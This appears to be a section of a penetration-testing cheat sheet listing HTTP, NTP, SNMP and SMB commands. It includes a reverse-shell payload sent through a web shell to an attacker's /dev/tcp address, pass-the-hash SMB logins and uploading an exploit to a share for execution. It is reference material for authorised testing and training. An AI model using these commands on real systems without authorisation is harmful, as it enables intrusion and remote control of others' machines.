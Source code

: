#### HTTP/HTTPs

- **HTTP Pivoting using SSH:**
	```bash
	ssh -L <local_port>:<target_ip>:<target_port> <user>@<pivot_host>
	```
- **Pivoting through Web Shells:**
	````bash
	curl http://<target_ip>/webshell?cmd=<command>
	````
- **Reverse SSH through Web Exploit:**
	```bash
	curl http://<target_ip>/webshell?cmd=bash+-i+>&+/dev/tcp/<attack_ip>/<attack_port>+0>&1
	```

#### NTP
- **Query NTP Server for Information:**
	```bash
	ntpdate -q <target_ntp_server>
	```
- **Synchronize Time with NTP:**
	```bash
	sudo ntpdate <target_ntp_server>
	```

#### SNMP
- **Enumerate SNMP Information:**
	```bash
	snmpwalk -v 2c -c public <target_ip>
	```
- **Set SNMP Values Remotely:**
	```bash
	snmpset -v 2c -c private <target_ip> .1.3.6.1.2.1.1.5.0 s "new_value"
	```

#### SMB
- **SMBClient List SMB Shares:**
	```bash
	smbclient -L //<target_ip> -U <username>
	```
- **SMBClient Connect to SMB:**
	```bash
	smbclient //<target_ip>/share -U <username>
	```
- **SMBClient Connect via Username and Password:**
	```bash
	smbclient //<target_ip>/<share_name> -U <username>%<password>
	```
- **SMBClient Connect via Username and Hash:**
	```bash
	smbclient //<target_ip>/<share_name> -U <username>%<NTLM_hash>
	```
- **SMBClient Upload File to Writable SMB Share for Execution:**
	```bash
	smbclient //target_ip/share -U <username> -c 'put /local/path/to/exploit /remote/path/on/share'
	```
- **Mount SMB Shares Locally:**
	```bash
	mount -t cifs //<target_ip>/<share_name> /mnt -o username=<username>,password=<password>
	```
- **Enum4Linux Scan and Enumerate :**
	```bash
	enum4linux -a <target_ip>
	```
